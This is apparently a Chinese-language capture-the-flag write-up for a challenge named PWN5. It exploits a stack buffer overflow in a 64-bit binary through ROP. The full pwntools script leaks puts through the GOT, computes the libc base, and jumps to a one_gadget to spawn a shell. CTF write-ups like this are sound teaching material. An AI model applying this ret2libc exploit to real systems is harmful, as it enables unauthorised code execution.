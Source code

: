 ### PWN5

#### 考点

- 对`ldd, patchelf`命令以及依赖库版本的了解
- 对ASLR机制的理解
- `one_gadget`工具使用

#### 解题过程

- 首先使用`checksec, files`查看程序基本信息：

![checksec](/img/posts/2023-10-23-pwn5/images/checksec.png)

![file](/img/posts/2023-10-23-pwn5/images/file.png)

​		可见程序为64位，开启DEP保护，为动态链接的程序。

- 使用`ldd`命令检查程序运行所需的依赖库，其中包括程序所依赖的C函数库`libc.so.6`以及动态链接器 `ld-linux-x86-64.so.2` 的路径  

![ldd](/img/posts/2023-10-23-pwn5/images/ldd.png)

- 使用 `patchelf `替换 `libc` 与 `ld` 到指定版本，该步骤目的是将本地运行环境调整到与预期一致。 `libc` 与 `ld` 的版本必须匹配，题中给定了 `libc-2.23.so` ，因此需要2.23版本的 `ld` 。 

 ![ldd-1](/img/posts/2023-10-23-pwn5/images/ldd-1.png)

- 使用`ida`打开，反编译：

`main`: 

![main](/img/posts/2023-10-23-pwn5/images/main.png)

`stack_flow`: `read`函数存在漏洞

![stack_flow](/img/posts/2023-10-23-pwn5/images/stack_flow.png)

- 使用`ROPgadget`工具查找程序中是否有`system`函数和`"/bin/sh"`字符串，结果表明并没有，因此需要自行输入字符串，并从动态链接库中查找`system`函数的偏移

![system&bin_sh](/img/posts/2023-10-23-pwn5/images/system&bin_sh.png)

- 构造脚本获取到`puts`函数在`libc`中的相对偏移：

  ```python
  from pwn import *
  
  
  libc= ELF('./libc-2.23.so')
  
  libc_puts_offset = libc.symbols['puts']
  print(hex(libc_puts_offset))
  ```

![puts_related_addr](/img/posts/2023-10-23-pwn5/images/puts_related_addr.png)

- 使用`one_gadget`工具获取到命令地址`exceve("/bin/sh")`

![one_gadget](/img/posts/2023-10-23-pwn5/images/one_gadget.png)

- 构造python脚本实现`"/bin/sh"`字符串的输入。

```python
from pwn import *

# 启动进程
context(arch='amd64', log_level='debug')
p = process('./pwn5')

elf = ELF("./pwn5")
p.recvuntil("Give me your payload\n")

# 参数地址
libc= ELF('./libc-2.23.so')
libc_puts_offset = libc.symbols['puts']
print(hex(libc_puts_offset))
libc_system_offset = libc.symbols['system']
print(hex(libc_system_offset))
libc_one_gadget_offset = 0x0f1247

pop_rdi = 0x400613
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = 0x400587

# 构造payload泄漏puts函数地址
payload1 = flat(b'a'*(0x20 + 8), pop_rdi, puts_got, puts_plt, main_addr)
p.send(payload1)
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
success(hex(puts_libc))

libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))
one_gadget = libc_base + libc_one_gadget_offset
print(hex(one_gadget))

payload2 = b'a'*(0x20 + 8) + p64(one_gadget)
p.recvuntil("Give me your payload\n")
# gdb.attach(p, 'b *0x400585')
p.send(payload2)
p.interactive()
```



- 重要的函数地址以及偏移量：

| 函数                   | 地址               |
| ---------------------- | ------------------ |
| `main`                 | 0x0000000000400587 |
| `stack_overflow`       | 0x0000000000400566 |
| `stack_overflow_leave` | 0x0000000000400585 |
| `pop_rdi`              | 0x0000000000400613 |
| `one_gadget`           | 0x0f1247           |



#### 结果

成功执行命令：

![image-20231001182756684](/img/posts/2023-10-23-pwn5/images/result.png)
